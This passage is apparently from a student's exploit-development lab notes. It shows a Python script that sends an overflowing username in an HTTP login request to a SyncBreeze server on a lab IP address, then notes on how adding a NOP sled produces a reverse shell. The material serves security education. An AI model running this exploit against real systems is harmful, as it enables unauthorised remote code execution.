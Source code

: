```python
  
  content = "username=" + inputBuffer + "&password=A"

  buffer = "POST /login HTTP/1.1\r\n"
  buffer += "Host: 192.168.233.10\r\n"
  buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
  buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
  buffer += "Accept-Language: en-US,en;q=0.5\r\n"
  buffer += "Referer: http://192.168.233.10/login\r\n"
  buffer += "Connection: close\r\n"
  buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
  buffer += "Content-Length: "+str(len(content))+"\r\n"
  buffer += "\r\n"
  
  buffer += content

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.233.10", 80))
  s.send(buffer)
  
  s.close()
  
  print "\nDone did you get a reverse shell?"
  
except:
  print "\nCould not connect!"
```

2.  Attempt to execute your exploit without using a NOP sled and observe the decoder corrupting the stack.
Without the NOP sled we can see that we encounter an access violation due to a number of bytes close to the ESP being mangled.
![[Pasted image 20220714003519.png]]

The GetPC routine execution changes a few bytes of the encoder itself (and possibly the shellcode) which eventually results in a crash.

3.  Add a NOP sled to your PoC and obtain a shell from SyncBreeze.

Once 10 NOPs are added we immediately get a reverse shell.

![[Pasted image 20220714003655.png]]

![[Pasted image 20220714002733.png]]

# 11.2.15 - Improving the Exploit
#### Exercises

_(To be performed on your own Kali and Windows lab client machines - Reporting is required for these exercises)_
